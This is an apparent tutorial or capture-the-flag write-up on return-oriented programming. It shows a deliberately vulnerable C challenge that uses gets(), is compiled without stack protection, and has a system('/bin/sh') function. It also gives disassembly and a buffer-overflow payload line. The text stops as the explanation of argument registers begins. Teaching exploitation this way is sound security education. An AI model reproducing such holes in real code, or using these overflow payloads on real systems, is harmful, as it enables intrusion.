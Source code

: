 # ROP

The code has been modified to add a parameter for the shell function. Can we still exploit it?

```c
#include <stdio.h>
int shell(int x){
    if(x==123456){
        system("/bin/sh");
    }else{
        printf("Die");
    }
}

int main(){
    char name[100];
    fputs("Enter name: ", stdout);
    gets(name);
    fputs("Hello: ", stdout);
    puts(name);
    return 0;
}
```

Compile: `gcc chal.c -o chal -no-pie -fno-stack-protector`

Looking at the disassembly, it seems 112 (0x70) bytes are allocated for the name buffer.

```asm
0x00000000004011c5 <+40>:    lea    rax,[rbp-0x70]
0x00000000004011c9 <+44>:    mov    rdi,rax
0x00000000004011cc <+47>:    mov    eax,0x0
0x00000000004011d1 <+52>:    call   0x401060 <gets@plt>
```

If we follow the same procedure it buffer overflow, we get the following payload:

```python
# Remember +8 bytes for rbp
p.sendline(b"a"*120+p64(elf.symbols["shell"]))
```

However, this segfaults because we did not pass `shell` any parameters. We can use return oriented programming (ROP) to overcome this.

## Principles

Recall that the `rdi` register is used to pass data as the first argument of a function. For example, in the disassembly above,

```asm
lea  rax,[rbp-0x70]
mov  rdi,rax
call 0x401060 <gets@plt>
```
